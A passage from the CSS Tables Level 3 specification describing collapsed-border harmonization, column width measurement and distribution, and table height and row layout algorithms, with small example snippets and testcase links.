    - For all newly-added right borders from cell Ci having a rowspan greater than one, add to the set S the border-left style of all cells sharing a section of their border-left with Ci’s border-right
  4. Harmonize the conflicting borders of S
- Resolve conflicts with border-bottom:

  1. Let S be an ordered set of table-cell border styles, sorted by cell in RowStart/ColumnStart order; initially, let S contain only C°’s border-bottom style
  2. Add to the set S the border-top style of all cells sharing a section of their top border with C°’s bottom border
  3. Repeat the following two instructions, until no new border style is added to S:

    - For all newly-added top borders from cell Ci having a rowspan greater than one, add to the set S the border-bottom style of all cells sharing a section of their bottom border with Ci’s top border
    - For all newly-added bottom borders from cell Ci having a rowspan greater than one, add to the set S the border-top style of all cells sharing a section of their top border with Ci’s bottom border
  4. Harmonize the conflicting borders of S
- Divide the used width of all borders by two.

  > **Note:** This effect will be compensated at rendering time wherever needed, but is required for layout correctness. (see [§ 5.3.3.1 Changes in collapsed-borders mode](#css-tables-3:drawing-collapsed-borders-2))

**Then, for that table-root:**

- Harmonize the table-root border-{top,bottom,left,right} with the corresponding border of all cells forming the border of the table (independently), without actually modifying the border properties of the table-root.    If the table and the cell border styles have the same specificity, keep the cell border style.   Once this is done, set the table-root border-{…}-width to half the maximum width found during the harmonization processes for that border, then set border-{…}-style to solid, and border-{…}-color to transparent.

> **Note:** Implementations may of course choose to skip some of the steps of the previous algorithm, provided they can prove those have no visible impact on the final results; certain borders are harmonized more than once using the previous steps, but preventing this would make the spec harder to read.

> **Example:** To help the reader get a better idea of what this algorithm is doing, the main steps of applying the previous algorithm over a sample table have been outlined here:     [https://jsfiddle.net/bn3d1sm4/](https://jsfiddle.net/bn3d1sm4/)  [https://jsfiddle.net/bn3d1sm4/1/](https://jsfiddle.net/bn3d1sm4/1/)  [https://jsfiddle.net/bn3d1sm4/2/](https://jsfiddle.net/bn3d1sm4/2/)  …  [https://jsfiddle.net/bn3d1sm4/15/](https://jsfiddle.net/bn3d1sm4/15/)

###### 3.7.1.2. Harmonization Algorithm for Collapsed Borders {#css-tables-3:border-style-harmonization-algorithm}

> **Note:** For the purpose of this algorithm, “considering” a border’s properties means that “if its properties are [more specific](#css-tables-3:border-specificity) than CurrentlyWinningBorderProperties, set CurrentlyWinningBorderProperties to its properties”.

> **Issue:** Change specificity in harmonization of collapsed borders? [[Issue #606]](https://github.com/w3c/csswg-drafts/issues/606)

Given an ordered set of border styles (BC1, BC2, … located in cells C1, C2, …) execute the following algorithm to determine the used value of the border properties for those conflicting borders.

- Set CurrentlyWinningBorderProperties to “border: 0px none transparent”
- For each border BCi:

  - Consider the BCi border’s properties
- If the border separates two columns:

  - For each border BCi: For each table-column spanned by the Ci cell, if any. Consider the border’s properties of any border of the table-column that would be drawn contiguously to BCi.
  - For each border BCi: For each table-column-group containing a column spanned by the Ci cell, if any. Consider the border’s properties of any border of the table-column-group that would be drawn contiguously to BCi.
- If the border separates two rows:

  - For each border BCi: For each table-row spanned by the Ci cell, if any. Consider the border’s properties of any border of the table-row that would be drawn contiguously to BCi.
  - For each border BCi: For each table-row-group containing a row spanned by the Ci cell, if any. Consider the border’s properties of any border of the table-row-group that would be drawn contiguously to BCi.
- Return CurrentlyWinningBorderProperties

###### 3.7.1.3. Specificity of a border style {#css-tables-3:border-specificity}

Given two borders styles, the border style having the most specificity is the border style which…

1. … has the value "hidden" as `border-style`, if only one does
2. … has the biggest `border-width`, once converted into css pixels
3. … has the `border-style` which comes first in the following list:

   ```
   double, solid, dashed, dotted, ridge, outset, groove, inset, none
   ```

If none of these criteria match, then both borders share the same specificity.

#### 3.8. Computing table measures {#css-tables-3:content-measure}

##### 3.8.1. Computing Undistributable Space {#css-tables-3:computing-undistributable-space}

The **undistributable space** of the table is the sum of the distances between the borders of consecutive table-cells (and between the border of the table-root and the table-cells).

The distance between the borders of two consecutive table-cells is the `border-spacing`, if any.

The distance between the table border and the borders of the cells on the edge of the table is the table’s padding for that side, plus the relevant border spacing distance (if any).

> **Example:** For example, on the right hand side, the distance is padding-right + horizontal border-spacing.

##### 3.8.2. Computing Cell Measures {#css-tables-3:computing-cell-measures}

The following terms are parameters of tables or table cells. These parameters encapsulate the differences between tables with different values of `border-collapse` (separate or collapse) so that the remaining subsections of this section do not need to refer to them differently.

****cell intrinsic offsets****

: The cell intrinsic offsets is a term to capture the parts of padding and border of a table cell that are relevant to intrinsic width calculation. It is a set of computed values for border-left-width, padding-left, padding-right, and border-right-width (along with zero values for margin-left and margin-right) defined as follows:

  - In separated-borders mode: the computed horizontal padding and border of the table-cell
  - In collapsed-borders mode: the computed horizontal padding of the cell and, for border values, the used border-width values of the cell (half the winning border-width)

****table intrinsic offsets****

: The table intrinsic offsets capture the parts of the padding and border of a table that are relevant to intrinsic width calculation. It is a set of computed values for border-left-width, padding-left, padding-right, and border-right-width (along with zero values for margin-left and margin-right) defined as follows:

  - In separated-borders mode: the computed horizontal padding and border of the table-root
  - In collapsed-borders mode: the used border-width values of the cell (half the winning border-width)

  > **Note:** The margins are not included in the table intrinsic offsets because handling of margins depends on the `caption-side` property.

  > **Issue:** Handling of intrinsic offsets when in border collapsing mode [[Issue #608]](https://github.com/w3c/csswg-drafts/issues/608)

****total horizontal border spacing****

: The total horizontal border spacing is defined for each table:

  - For tables laid out in separated-borders mode containing at least one column, the horizontal component of the computed value of the border-spacing property times one plus the number of columns in the table
  - Otherwise, 0

****offsets-adjusted min-width, width, and max-width****

: - For table-track and table-track-group boxes, the offsets-adjusted value of width properties is their computed value, irrespective of the value of `box-sizing` applied on the element.
  - For table-cell boxes, the offsets-adjusted value of width properties is their computed value from which the cell’s border-{left|right}-width and/or padding-{left|right} have eventually been deduced, depending on the value of `box-sizing`.

    > **Note:** When the table is laid out in collapsed-borders mode, the border value to deduce is half the value of the winning border value on each side (see [conflict resolution explanation note](#css-tables-3:border-conflict-resolution-algorithm))

  [Testcase.](https://wptest.center/#/hmmbt3) [Testcase.](https://wptest.center/#/rnfac4) [Testcase.](https://wptest.center/#/3lao88)

****outer min-content** and **outer max-content** widths**

: The outer min-content and max-content widths are defined for table cells, columns, and column groups. The `width`, `min-width`, and `max-width` values used in these definitions are the offsets-adjusted values defined above:

  - The **outer min-content width** of a table-cell is `max(min-width, min-content width)` adjusted by the cell intrinsic offsets.
  - The **outer min-content width** of a table-column or table-column-group is `max(min-width, width)`.
  - The **outer max-content width** of a table-cell in a non-constrained column is `max(min-width, width, min-content width, min(max-width, max-content width))` adjusted by the cell intrinsic offsets.
  - The **outer max-content width** of a table-cell in a constrained column is `max(min-width, width, min-content width, min(max-width, width))` adjusted by the cell intrinsic offsets.
  - The **outer max-content width** of a table-column or table-column-group is `max(min-width, min(max-width, width))`.

****percentage contribution**s**

: The percentage contribution of a table cell, column, or column group is defined in terms of the computed values of `width` and `max-width` that have computed values that are percentages:    `min(percentage width, percentage max-width)`.    If the computed values are not percentages, then `0%` is used for `width`, and an `infinite` percentage is used for `max-width`.

  > **Note:** Please note that `min-width` is not included in this computation. As a result, a percentage `min-width` is ignored. Since `width` functions like a `min-width` in table layout and column sizing cannot be both length-based and percent-based, authors should not use `min-width` on table-internal boxes and prefer to rely on `width` only instead.

##### 3.8.3. Computing Column Measures {#css-tables-3:computing-column-measures}

This subsection defines three important values associated with each column of a table: their min-content width (the smallest possible width attributed to this column), their max-content width (the width that would be attributed to the column if no other constraint applied), their intrinsic percentage width (the percentage of the table width the column desires to get, and could end up overriding its max-content width).

> **Note:** To compute these values, an iterative algorithm is used. First, these values are computed ignoring any cell spanning more than one column. Then, these values are updated by taking into account cells spanning incrementally more columns. When cells that spanned all columns of the table have been considered, this algorithm ends and the values are then finalized.

> **Advisement:** For the purpose of measuring a column when laid out in fixed mode, only cells which originate in the first row of the table (after reordering the header and footer) will be considered, if any. In addition, the min-content and max-content width of cells is considered zero unless they are directly specified as a length-percentage, in which case they are resolved based on the table width (if it is definite, otherwise use 0).

For the purpose of calculating the outer min-content width of cells, descendants of table cells whose width depends on percentages of their parent cell’s width are considered to have an auto width. [Testcase](https://jsfiddle.net/0e12ve9b/1/) [Testcase](https://jsfiddle.net/0e12ve9b/3/)

**min-content width of a column based on cells of span up to 1**

: The largest of:

  - the width specified for the column:

    - the outer min-content width of its corresponding table-column, if any (and not auto)
    - the outer min-content width of its corresponding table-column-group, if any
    - or 0, if there is none
  - the outer min-content width of each cell that spans the column whose colSpan is 1 (or just the one in the first row in fixed mode) or 0 if there is none

**max-content width of a column based on cells of span up to 1**

: The largest of:

  - the outer max-content width of its corresponding table-column-group, if any
  - the outer max-content width of its corresponding table-column, if any
  - the outer max-content width of each cell that spans the column whose colSpan is 1 (or just the one in the first row if in fixed mode) or 0 if there is no such cell

**intrinsic percentage width of a column based on cells of span up to 1**

: The largest of the percentage contributions of each cell that spans the column whose colSpan is 1, of its corresponding table-column (if any), and of its corresponding table-column-group (if any)

**min-content width of a column based on cells of span up to N (N > 1)**

: the largest of the min-content width of the column based on cells of span up to N-1 and the contributions of the cells in the column whose colSpan is N, where the contribution of a cell is the result of taking the following steps:

  1. Define the baseline min-content width as the sum of the min-content widths based on cells of span up to N-1 of all columns that the cell spans.
  2. Define the baseline max-content width as the sum of the max-content widths based on cells of span up to N-1 of all columns that the cell spans.
  3. Define the baseline border spacing as the sum of the horizontal border-spacing for any columns spanned by the cell, other than the one in which the cell originates.
  4. The contribution of the cell is the sum of:

    - the min-content width of the column based on cells of span up to N-1
    - the product of:

      - the ratio of:

        - the max-content width of the column based on cells of span up to N-1 of the column minus the min-content width of the column based on cells of span up to N-1 of the column, to
        - the baseline max-content width minus the baseline min-content width

        or zero if this ratio is undefined, and
      - the outer min-content width of the cell minus the baseline min-content width and the baseline border spacing, clamped to be at least 0 and at most the difference between the baseline max-content width and the baseline min-content width
    - the product of:

      - the ratio of the max-content width based on cells of span up to N-1 of the column to the baseline max-content width
      - the outer min-content width of the cell minus the baseline max-content width and baseline border spacing, or 0 if this is negative

**max-content width of a column based on cells of span up to N (N > 1)**

: The largest of the max-content width based on cells of span up to N-1 and the contributions of the cells in the column whose colSpan is N, where the contribution of a cell is the result of taking the following steps:

  1. Define the baseline max-content width as the sum of the max-content widths based on cells of span up to N-1 of all columns that the cell spans.
  2. Define the baseline border spacing as the sum of the horizontal border-spacing for any columns spanned by the cell, other than the one in which the cell originates.
  3. The contribution of the cell is the sum of:

    - the max-content width of the column based on cells of span up to N-1
    - the product of:

      - the ratio of the max-content width based on cells of span up to N-1 of the column to the baseline max-content width
      - the outer max-content width of the cell minus the baseline max-content width and the baseline border spacing, or 0 if this is negative

**intrinsic percentage width of a column based on cells of span up to N (N > 1)**

: If the intrinsic percentage width of a column based on cells of span up to N-1 is greater than 0%, then the intrinsic percentage width of the column based on cells of span up to N is the same as the intrinsic percentage width of the column based on cells of span up to N-1.    Otherwise, it is the largest of the contributions of the cells in the column whose colSpan is N, where the contribution of a cell is the result of taking the following steps:

  1. Start with the percentage contribution of the cell.
  2. Subtract the intrinsic percentage width of the column based on cells of span up to N-1 of all columns that the cell spans. If this gives a negative result, change it to 0%.
  3. Multiply by the ratio of

    - the column’s non-spanning max-content width to
    - the sum of the non-spanning max-content widths of all columns spanned by the cell that have an intrinsic percentage width of the column based on cells of span up to N-1 equal to 0%.

     However, if this ratio is undefined because the denominator is zero, instead use the 1 divided by the number of columns spanned by the cell that have an intrinsic percentage width of the column based on cells of span up to N-1 equal to zero.

****min-content width of a column****

: the min-content width of the column based on cells of span up to N, where N is the number of columns in the table

****max-content width of a column****

: the max-content width of the column based on cells of span up to N, where N is the number of columns in the table

****intrinsic percentage width of a column****

: the smaller of:

  - the intrinsic percentage width of the column based on cells of span up to N, where N is the number of columns in the table
  - 100% minus the sum of the intrinsic percentage width of all prior columns in the table (further left when direction is "ltr" (right for "rtl")) [Testcase](https://wptest.center/#/45xdf3)

  > **Note:** The clamping of the total of the intrinsic percentage widths of columns to a maximum of 100% means that the table layout algorithm is not invariant under switching of columns.

****constrainedness****

: A column is constrained if its corresponding table-column-group (if any), its corresponding table-column (if any), or any of the cells spanning only that column has a computed `width` that is not "auto", and is not a percentage.

> **Note:** In a future revision of this specification, this algorithm will need to account for character-alignment of cells ('`<string>`' values of the `text-align` property). This requires (based on the 9 March 2011 editor’s draft of css3-text) separately tracking max-content widths for the part of the column before the center of the alignment string and the part of the column after the center of the alignment string. For tracking min-content widths, there are two options: either not track them, or track three values: two values as for max-content widths for any cells that do not have break points in them, and a fourth value for any cells that do have break points in them (and to which character alignment is therefore not mandatory).

> **Issue:** EDITORIAL. The way this describes distribution of widths from colspanning cells is wrong. For min-content and max-content widths it should refer to the rules for distributing excess width to columns for intrinsic width calculation.

#### 3.9. Available Width Distribution {#css-tables-3:width-distribution}

##### 3.9.1. Computing the table width {#css-tables-3:computing-the-table-width}

Before deciding on the final width of all columns, it is necessary to compute the width of the table itself.

> **Note:** As noted before, this would usually be the sum of preferred width of all columns, plus any extra. In this case, the width distribution will result in giving each column its preferred width. There are however a few cases where the author asks for some other width explicitly, as well as a few cases where the table cannot be given the width it requires.

The **caption width minimum (CAPMIN)** is the largest of the table captions min-content contribution.

The **row/column-grid width minimum (GRIDMIN)** width is the sum of the min-content width of all the columns plus cell spacing or borders.

The **row/column-grid width maximum (GRIDMAX)** width is the sum of the max-content width of all the columns plus cell spacing or borders.

The **used min-width of a table** is the greater of the resolved `min-width`, CAPMIN, and GRIDMIN.

The **used width of a table** depends on the columns and captions widths as follows:

- If the table-root’s `width` property has a computed value (resolving to **resolved-table-width**) other than `auto`, the used width is the greater of resolved-table-width, and the used min-width of the table.

  > **Note:** If the used width is greater than GRIDMIN, the extra width should be distributed over the columns. See [§ 3.9 Available Width Distribution](#css-tables-3:width-distribution).
- If the table-root has 'width: auto', the used width is the greater of min(GRIDMAX, the table’s containing block width), the used min-width of the table.

The **assignable table width** is the used width of the table minus the total horizontal border spacing (if any). This is the width that we will be able to allocate to the columns.

> **Note:** In this algorithm, rows (and row groups) and columns (and column groups) both constrain and are constrained by the dimensions of the cells they contain. Setting the width of a column might indirectly influence the height of a row, and vice versa.

##### 3.9.2. Core distribution principles {#css-tables-3:width-distribution-principles}

This section is not normative.

###### 3.9.2.1. Rules {#css-tables-3:width-distribution-principles-rN}

Ideally, each column should get its preferred width (usually its max-content width). However, the assignable table width calculated before could be either too big or too small to achieve this result, in which case the user agent must assign adhoc widths to columns as described in the width distribution algorithm.

This algorithm follows three rules when determining a column’s used width:

**Rule 0:**   In fixed mode, auto and percentages columns are assigned a minimum width of zero pixels, and percentage resolution follows a different set of rules, whose goal is to ensure pixel columns always get assigned their preferred width.

**Rule 1:**   When assigning preferred widths, specified percent columns have a higher priority than specified unit value columns, which have a higher priority than auto columns.

**Rule 2:**   Columns using the same sizing type (percent columns, pixel columns, or auto columns) follow the same distribution method. For example, they all get their min-content width or they all get their max-content width.    There is one exception to this rule. When giving its preferred percent width to a percent-column, if that would result in a size smaller than its min-content width, the column will be assigned its min-content width instead though the percent-columns group as a whole is still regarded as being assigned the preferred percent widths.

**Rule 3:**   The sum of width assigned to all columns should be equal to the assignable table width.

###### 3.9.2.2. Available sizings {#css-tables-3:width-distribution-principles-rR}

All three types of columns have the following possible used widths.

1. min-content width:   The size required to fit the content of the column
2. min-content width + delta:   A value between the min-content and preferred widths
3. preferred width:   The size specified for the column, or the size required to fit the content of the column without breaking
4. preferred width + delta  A value larger than the preferred width

The distribution algorithm defines those values and explains when to use them.

##### 3.9.3. Distribution algorithm {#css-tables-3:width-distribution-algorithm}

When a table is laid out at a given used width, the used width of each column must be determined as follows, eventually after considering [the changes to this algorithm](#css-tables-3:width-distribution-in-fixed-mode) applied in fixed mode.

First, each column of the table is assigned a **sizing type**:

- **percent-column**:  a column whose any constraint is defined to use a percentage only (with a value different from 0%)
- **pixel-column**:  column whose any constraint is defined to use a defined length only (and is not a percent-column)
- **auto-column**:  any other column

Then, valid sizing methods are to be assigned to the columns by sizing type, yielding the following sizing-guesses:

1. The **min-content sizing-guess** is the set of column width assignments where each column is assigned its min-content width.
2. The **min-content-percentage sizing-guess** is the set of column width assignments where:

  - each percent-column is assigned the larger of:

    - its intrinsic percentage width times the assignable width and
    - its min-content width.
  - all other columns are assigned their min-content width.
3. The **min-content-specified sizing-guess** is the set of column width assignments where:

  - each percent-column is assigned the larger of:

    - its intrinsic percentage width times the assignable width and
    - its min-content width
  - any other column that is constrained is assigned its max-content width
  - all other columns are assigned their min-content width.
4. The **max-content sizing-guess** is the set of column width assignments where:

  - each percent-column is assigned the larger of:

    - its intrinsic percentage width times the assignable width and
    - its min-content width
  - all other columns are assigned their max-content width.

> **Note:** that:
>
> - The assignable table width is always greater than or equal to the table width resulting from the min-content sizing-guess.
> - The widths for each column in the four sizing-guesses (min-content, min-content-percentage, min-content-specified, and max-content) are in nondecreasing order.

If the assignable table width is less than or equal to the max-content sizing-guess, the used widths of the columns must be the linear combination (with weights adding to 1) of the two consecutive sizing-guesses whose width sums bound the available width.

Otherwise, the used widths of the columns are the result of starting from the max-content sizing-guess and distributing the excess width to the columns of the table according to the rules for distributing excess width to columns (for used width).

> **Note:** The following schema describes the algorithm in a different way, to make it easier to understand.

Legend

**Sizing algorithms:**  Each drawing of the table represents a way of sizing the columns. The four cases on the left are the sizing-guesses described above in the spec: min-content, min-content-percentage, min-content-specified, and max-content. The cases on the right are interpolations required for available sizes that do not match exactly one of the four sizing-guesses.

**Choice of sizing method:**  The sizing method selection always starts at the min-content sizing-guess (top left), and then proceeds by comparing the available width and the width consumed by the method currently in use. Green arrows indicate the direction you should follow if you have extra space to distribute after applying the current method. Red arrows indicate the direction you should follow if you have distributed too much space by applying the current method and need to backtrack.

**Columns types:**  Each type of column (auto, px, %) has its own color in the schema (yellow, blue, orange). In an interpolation: columns that get shrunk down from their size in previous sizing-guess are repainted red, and columns that get expanded from their size in previous sizing-guess are repainted green.

![[see-caption-below]](../css-tables-3/images/CSS-Tables-Column-Width-Assignment.svg)

Overview of the width distribution algorithm. Not normative.

###### 3.9.3.1. Changes to width distribution in fixed mode {#css-tables-3:width-distribution-in-fixed-mode}

The following changes to previous algorithm apply in fixed mode:

- The min-content width of percent-columns and auto-columns is considered to be zero
- Cells ignore their border and padding size if their width is a percentage (`box-sizing` is ignored)
- If, when percentages are resolved based on the assignable table width, the sum of columns widths based on this resolution would exceed the assignable table width, they are instead to be resolved relative to their percentage value such that the sum of columns width meets the assignable table width exactly.
- Columns whose size is computed as a sum of a percentage and a pixel length must be sized as if they counted as two columns, one with the pixel value, the other with the percentage value. This is different from resolving the percentage away, because of how width distribution works for percentage-based columns.

###### 3.9.3.2. Distributing excess width to columns {#css-tables-3:distributing-width-to-columns}

The rules for **distributing excess width to columns** can be invoked in two ways:

- for distributing the excess width of a table to its columns during the computation of the used widths of those columns (for used width calculation), or
- for distributing the excess max-content or min-content width of a cell spanning more than one column to the max-content or min-content widths of the columns it spans (for intrinsic width calculation).

The rules for these two cases are largely the same, but there are slight differences.

The remainder of this section uses the term **distributed width** to refer to the one of these widths that is being distributed, and the **excess width** is used to refer to the amount by which the width being distributed exceeds the sum of the distributed widths of the columns it is being distributed to.

1. If there are non-constrained columns that have originating cells with intrinsic percentage width of 0% and with nonzero max-content width *(aka the columns allowed to grow by this rule)*, the distributed widths of the columns allowed to grow by this rule are increased in proportion to max-content width so the total increase adds to the excess width.
2. Otherwise, if there are non-constrained columns that have originating cells with intrinsic percentage width of 0% *(aka the columns allowed to grow by this rule, which thanks to the previous rule must have zero max-content width)*, the distributed widths of the columns allowed to grow by this rule are increased by equal amounts so the total increase adds to the excess width.
3. Otherwise, if there are constrained columns with intrinsic percentage width of 0% and with nonzero max-content width *(aka the columns allowed to grow by this rule, which, due to other rules, must have originating cells)*, the distributed widths of the columns allowed to grow by this rule are increased in proportion to max-content width so the total increase adds to the excess width.
4. Otherwise, if there are columns with intrinsic percentage width greater than 0% *(aka the columns allowed to grow by this rule, which, due to other rules, must have originating cells)*, the distributed widths of the columns allowed to grow by this rule are increased in proportion to intrinsic percentage width so the total increase adds to the excess width.
5. Otherwise, if there is any such column, the distributed widths of all columns that have originating cells are increased by equal amounts so the total increase adds to the excess width.
6. Otherwise, the distributed widths of all columns are increased by equal amounts so the total increase adds to the excess width.

> **Advisement:** These rules do not apply when the table is laid out in fixed mode. In this case, the simpler rules that follow apply instead:
>
> - If there are any columns with no width specified, the excess width is distributed in equally to such columns
> - otherwise, if there are columns with non-zero length widths from the base assignment, the excess width is distributed proportionally to width among those columns
> - otherwise, if there are columns with non-zero percentage widths from the base assignment, the excess width is distributed proportionally to percentage width among those columns
> - otherwise, the excess width is distributed equally to the zero-sized columns

#### 3.10. Available Height Distribution {#css-tables-3:height-distribution}

##### 3.10.1. Computing the table height {#css-tables-3:computing-the-table-height}

> **Note:** [?Testcase](https://jsfiddle.net/bsgt4wbx/) [?Testcase](https://jsfiddle.net/bsgt4wbx/1/) [?Testcase](https://jsfiddle.net/bsgt4wbx/3/)

The **height of a table** is the sum of the row heights plus any cell spacing or borders. If the table has a `height` property with a value other than auto, it is treated as a minimum height for the table grid, and will eventually be distributed to the height of the rows if their collective [minimum height](#) ends up smaller than this number. If their collective size ends up being greater than the specified `height`, the specified `height` will have no effect.

The **minimum height of a row** is the maximum of:

- the computed `height` (if definite, percentages being considered 0px) of its corresponding table-row (if any)
- the computed `height` of each cell spanning the current row exclusively (if definite, percentages being treated as 0px), and
- the minimum height (ROWMIN) required by the cells spanning the row.

**ROWMIN** is defined as the sum of the [minimum height of the rows](#css-tables-3:row-layout) after a first row layout pass.

To compute the **height of a table**, it is therefore necessary to perform a first-pass layout on all its rows, compute the sum of all minimum row heights plus spacings/borders, and return the greater of either that value or the table-root specified `height` (min-height).

Once the table height has been determined, rows will usually get a [second layout pass](#css-tables-3:row-relayout) (where their cells' heights are no longer considered auto), then [height distribution](#css-tables-3:height-distribution-algorithm) will happen to adjust their heights to collectively meet the table height, then table-cell descendants might get a [second layout](#css-tables-3:table-cell-content-relayout) (where their percentage heights are resolved).

##### 3.10.2. Row layout (first pass) {#css-tables-3:row-layout}

The **minimum height of a row** (without spanning-related height distribution) is defined as the height of a hypothetical linebox containing the cells originating in the row and where cells spanning multiple rows are considered having a height of 0px (but their correct baseline). In this hypothetical linebox, cell heights are considered auto, their width (including borders and paddings) is forced to the widths and inner spacings of the columns they span, but their other properties are conserved.

For the purpose of calculating this height, descendants of table cells whose height depends on percentages of their parent cell’s height (see section below) are considered to have an auto height if they have `overflow` set to `visible`, `clip`, or `hidden` or if they are replaced elements, and a 0px height if they have not. [Testcase](https://jsfiddle.net/0e12ve9b/) [!!Testcase](https://jsfiddle.net/0e12ve9b/3/)

> **Note:** For table-cell descendants whose percentage height was ignored as a result of the above, a second layout pass of the table-cell content will happen once height distribution has concluded to attempt to properly take this sizing into account (see section below)

The **baseline of a cell** is defined as the baseline of the first in-flow line box in the cell, or the first in-flow table-row in the cell, whichever comes first. If there is no such line box or table-row, the baseline is the bottom of content edge of the cell box.

> **Example:** Here is how this works out in practice:
>
> ```
> td { vertical-align: baseline; outline: 3px solid silver; }
> img { float: left; clear: left; width: 32px; height: 32px; }
> img[title] { float: none; }
>
> <table><tr>
>   <td>Baseline</td>
>   <td>Baseline<table><tr><td>After</td></tr></table></td>
>   <td><table><tr><td>Baseline</td></tr></table>After</td>
>   <td><table align=right><tr><td>Before</td></tr></table><p>Baseline</p></td>
>   <td><p>Baseline</p></td>
>   <td><br/></td>
>   <td><!--Baseline--></td>
> </tr></table>
> ```
>
> ![[see-caption-below]](../css-tables-3/images/td-baseline-example-rendering.png)
>
> Rendering of [this example](https://jsfiddle.net/x8sh0f60/3/) in a compliant browser

> **Advisement:** For the purposes of finding a baseline, in-flow boxes with a scrolling mechanisms (see the `overflow` property) must be considered as if scrolled to their origin position.

> **Note:** The baseline of a cell may end up below its bottom border, see the example below.

> **Example:** The cell in this example has a baseline below its bottom border:
>
> ```
> div { height: 0; overflow: hidden; }
>
> <table>
> <tr>
> <td>
> <div> Test </div>
> </td>
> </tr>
> </table>
> ```

The `vertical-align` property of each table cell determines its alignment within the row. Each cell’s content has a baseline, a top, a middle, and a bottom, as does the row itself.

In the context of table cells, values for `vertical-align` have the following meanings:

| Field | Value |
| --- | --- |
| baseline | The baseline of the cell is aligned with the baseline of the other cells of the first row it spans (see the definition of baselines of cells and rows). |
| top | The top of the cell box is aligned with the top of the first row it spans. |
| bottom | The bottom of the cell box is aligned with the bottom of the last row it spans. |
| middle | The center of the cell is aligned with the center of the rows it spans. |
| ... | Other values do not apply to cells; the cell is aligned at the baseline instead. |

The maximum distance between the top of the cell box and the baseline over all cells that have 'vertical-align: baseline' is used to set the **baseline of the row**. If a row doesn’t have any cell that has 'vertical-align: baseline', the baseline of that row is the bottom content edge of the lowest cell in the row.

The **baseline of a table-root** is the baseline of its first row, if any. Otherwise, it is the bottom content edge of the table-root.

[Testcase](https://wptest.center/#/mz09g6) [!!Testcase](https://wptest.center/#/x80356)

> **Advisement:** To avoid ambiguous situations, the alignment of cells proceeds in the following order:
>
> - First the cells that are aligned on their baseline are positioned. This will establish the baseline of the row.
> - Next the cells with 'vertical-align: top' are positioned. The row now has a top, possibly a baseline, and a provisional height, which is the distance from the top to the lowest bottom of the cells positioned so far.
> - If any of the remaining cells, those aligned at the bottom or the middle, have a height that is larger than the current height of the row, the height of the row will be increased to the maximum of those cells, by lowering the bottom.
> - Finally, assign their position to the remaining cells.

> **Example:** showing how the previous algorithm creates the various alignment lines of a row.
>
> [![[see-caption-below]](../css-tables-3/images/cell-align-explainer.png)](https://www.w3.org/TR/CSS2/images/longdesc/cell-align-desc.html)
>
> Diagram showing the effect of various values of `vertical-align` on table cells. Cell boxes 1 and 2 are aligned at their baselines. Cell box 2 has the largest height above the baseline, so that determines the baseline of the row.

Since during row layout the specified heights of cells in the row were ignored and cells that were spanning more than one row have not been sized correctly, their height will need to be eventually distributed to the set of rows they spanned. This is done by running the same algorithm as the [column measurement](#css-tables-3:computing-column-measures), with the span=1 value being initialized (for min-content) with the largest of the resulting height of the previous row layout, the height specified on the corresponding table-row (if any), and the largest height specified on cells that span this row only (the algorithm starts by considering cells of span 2 on top of that assignment).

> **Issue:** EDITORIAL. Import the relevant section of [§ 3.8.3 Computing Column Measures](#css-tables-3:computing-column-measures) here.

Rows that see their size increase as a result of applying these steps adjust by lowering their bottom.

> **Advisement:** The cells whose position depended on the bottom of any updated row must be positioned correctly again in their respective rows.
>
> At this point, cell boxes that are smaller than the collective height of the rows they span receive extra top and/or bottom padding such that their content does not move vertically but their top/bottom edges meet the ones of the first/last row they span.

> **Note:** Please note that heights being defined on row groups are being ignored by this algorithm

##### 3.10.3. Row layout (second pass) {#css-tables-3:row-relayout}

Once the table height has been determined, a second row layout pass will be performed, if necessary, to assign the correct minimum height to table rows, by taking percentages used in rows/cells specified `height` into account. Other than that, all instructions for the first-pass row layout apply [(see above)](#css-tables-3:row-layout).

> **Note:** Please note that this second-pass minimum height therefore still treats percentage heights of table-cell descendants as advised for the first pass [(see above)](#css-tables-3:row-layout). For this reason, it is not required to relayout the content of table-cells to compute the new row minimum height. If necessary, table-cell content will undergo a relayout later, after table height distribution has concluded [(see below)](#css-tables-3:table-cell-content-relayout).

Then, if the sum of the new heights of the table rows after this second pass is different from what is needed to fill the table height previously determined, the height distribution algorithm defined [below](#css-tables-3:height-distribution-algorithm) is applied (either to shrink rows by sizing them intermediately between their first-pass minimum height and their second-pass one, or to increase the heights of all rows beyond their second-pass minimum height to fill the available space; in neither case, this will have an impact on the baseline of the rows).

##### 3.10.4. Core distribution principles {#css-tables-3:height-distribution-principles}

> **Issue:** EDITORIAL. TODO. For current proposal, skip to [§ 3.10.5 Distribution algorithm](#css-tables-3:height-distribution-algorithm).

> **Note:** Investigations on height distribution
>
> Initial analysis shows that there are indeed similarities between width and height distribution. There are also differences which I described here below:
>
> In many case, all browsers apply a distribution algorithm that favors percentages over pixels over auto. [Case 6](https://jsfiddle.net/xg2ss965/2/).
>
> A difference with the width distribution algorithm is that if the sum of all rows' heights is higher than 100%, then all browsers enter a completely different mode. [Case 7](https://jsfiddle.net/6ec0hxgx/).  NOTE: The sum counts as well percentage heights and pixels heights, since at this point you can safely resolve percentages.
>
> In this case, pixel-tracks are sized properly first. Then, percentage tracks get the remaining space proportionally to their height percentage up to their height percentage. Finally, auto tracks get to fill the remaining space, if there is any auto track. If there is none, percentage tracks continue growing above their height percentage until all the space is filled. [Case 9](https://jsfiddle.net/xg2ss965/1/).
>
> The height distribution algorithm also caps the sum of percentage heights to 100% in all browsers but Edge. That means that some rows get an arbitrary 0% height. [Case 8](https://jsfiddle.net/xg2ss965/).
>
> In Edge and Firefox, empty tracks do not get an increased size by this distribution if there are filled auto tracks. In Chrome, empty tracks count as distributable tracks as well even if there are other auto tracks.
>
> - Case 1: [height](https://jsfiddle.net/Lh9shm8p/) vs [width](https://jsfiddle.net/wza8huh7/)
> - Case 2: [height](https://jsfiddle.net/Lh9shm8p/1/) vs [width](https://jsfiddle.net/wza8huh7/1/)
> - Case 3: [height](https://jsfiddle.net/Lh9shm8p/2/) vs [width](https://jsfiddle.net/wza8huh7/2/)
> - Case 4: [height](https://jsfiddle.net/Lh9shm8p/3/) vs [width](https://jsfiddle.net/wza8huh7/3/)
> - Case 5: [height](https://jsfiddle.net/Lh9shm8p/4/) vs [width](https://jsfiddle.net/wza8huh7/4/)
>
> Interesting test cases about min-content and content using percentage sizes:
>
> - [Case 10](https://jsfiddle.net/gzapbyeg/1/).
> - [Case 11](https://jsfiddle.net/gzapbyeg/2/).
>
